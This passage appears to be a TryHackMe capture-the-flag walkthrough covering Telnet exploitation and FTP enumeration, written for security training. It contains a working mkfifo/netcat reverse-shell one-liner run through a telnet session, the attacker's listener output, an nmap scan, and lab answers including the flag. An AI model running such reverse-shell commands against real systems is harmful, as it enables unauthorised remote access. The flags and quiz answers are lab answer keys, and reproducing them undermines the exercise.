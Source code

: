 - Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine! ``No answer needed``

````
.RUN mkfifo /tmp/xoerbw; nc 10.11.38.54 4444 0</tmp/xoerbw | /bin/sh >/tmp/xoerbw 2>&1; rm /tmp/xoerbw
-------------------------------------------------------------------------
❯ nc -lvp 4444
listening on [any] 4444 ...
10.10.17.203: inverse host lookup failed: Unknown host
connect to [10.11.38.54] from (UNKNOWN) [10.10.17.203] 46820                               
                                             
cat flag.txt
THM{y0u_g0t_th3_t3ln3t_fl4g} 
````
- Success! What is the contents of flag.txt? ``THM{y0u_g0t_th3_t3ln3t_fl4g}``

## Task 8: Understanding FTP
- What communications model does FTP use?	``client-server``
- What's the standard FTP port?	``21``
- How many modes of FTP connection are there?	``2``

## Task 9: Enumerating FTP
````
❯ nmap -sC -sV -A 10.10.113.139 -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-06 06:50 EDT
Nmap scan report for 10.10.113.139 (10.10.113.139)
Host is up (0.037s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.38.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

````

